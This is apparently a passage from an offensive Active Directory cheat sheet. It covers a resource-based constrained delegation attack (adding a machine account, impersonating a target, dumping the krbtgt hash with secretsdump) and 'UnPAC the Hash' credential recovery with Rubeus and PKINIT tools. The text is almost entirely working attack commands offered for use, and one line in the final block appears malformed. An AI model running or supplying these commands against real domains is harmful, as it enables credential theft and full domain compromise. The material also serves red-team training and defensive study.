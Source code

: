 * Add a computer for RBCD

    ```ps1
    impacket-addcomputer -dc-ip 10.10.10.10 DOMAIN.LOCAL/User:P@ssw0rd -computer-name "NEWCOMPUTER" -computer-pass "P@ssw0rd123*"
    ```

* Set the RBCD

    ```ps1
    set_rbcd 'TARGET$' 'NEWCOMPUTER$'
    ```

* Request a ticket with impersonation

    ```ps1
    impacket-getST -spn 'cifs/target.domain.local' -impersonate 'target$' -dc-ip 10.10.10.10 'DOMAIN.LOCAL/NEWCOMPUTER$:P@ssw0rd123*'
    ```

* Use the ticket

    ```ps1
    export KRB5CCNAME=DC$.ccache
    impacket-secretsdump.py 'target$'@target.domain.local -k -no-pass -dc-ip 10.10.10.10 -just-dc-user 'krbtgt'
    ```

## UnPAC The Hash

Using the **UnPAC The Hash** method, you can retrieve the NT Hash for an User via its certificate.

* Windows

    ```ps1
    # Request a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```

* Linux

    ```ps1
    # Obtain a TGT by validating a PKINIT pre-authentication
    $ gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
    # Use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```
